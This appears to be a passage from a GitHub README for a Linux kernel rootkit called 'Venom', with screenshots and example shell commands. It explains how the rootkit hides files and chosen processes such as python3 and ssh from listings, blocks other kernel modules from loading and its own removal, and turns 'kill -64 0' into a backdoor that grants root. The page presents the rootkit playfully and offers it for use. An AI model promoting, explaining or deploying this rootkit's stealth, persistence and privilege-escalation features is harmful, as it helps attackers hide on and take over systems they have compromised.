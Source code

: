 **Cool part:** The files still exist and you can access them if you know the name. You just can't *see* them in listings.

```bash
ls /tmp/                    # Won't show source-code-project
cd /tmp/source-code-project # Still works!
```

<img width="963" height="672" alt="Screenshot 2025-10-12 144346" src="https://github.com/user-attachments/assets/2a1687d9-03b2-4a11-8a29-9bb75107abee" />


### Process Hiding 

**What it does:** Hides specific processes from `/proc` enumeration.

When you run `ps`, it reads `/proc/[PID]/` directories. Venom filters these out based on:
- PIDs you manually add to the hidden list
- Processes with names like: `python3`, `crontab`, `node`, `ssh`
- This list can be extended and modified under the `hooks/pid_hiding.h` file 

**Example scenario:**
```bash
python3 -m http.server 8443 &
# PID: 1337

ps aux | grep python    # Shows nothing
ls /proc/ | grep 1337   # Shows nothing

# But it's still running and serving files
curl localhost:8443     # Works fine
```

### Module Protection (`init_module` / `finit_module` / `delete_module`)

**What it does:** Prevents other kernel modules from being loaded or Venom from being unloaded.

This is basically saying: I'm the only rootkit allowed here. It blocks:
- `insmod` - Can't load new modules
- `modprobe` - Same deal 
- `rmmod venom` - Can't remove Venom 

```bash
sudo insmod attacker.ko
# Blocked!

⚠ [WARN] Blocked unauthorized module load attempt (finit_module) from PID 1234
```

### Privilege Escalation Backdoor (`kill`)

**What it does:** Provides a magic signal to instantly gain root.

Here's the fun part - normally `kill` is used to send signals to processes. But Venom hijacks it:

```bash
kill -64 0    # Magic signal
id            # uid=0(root) - you're now root!
```
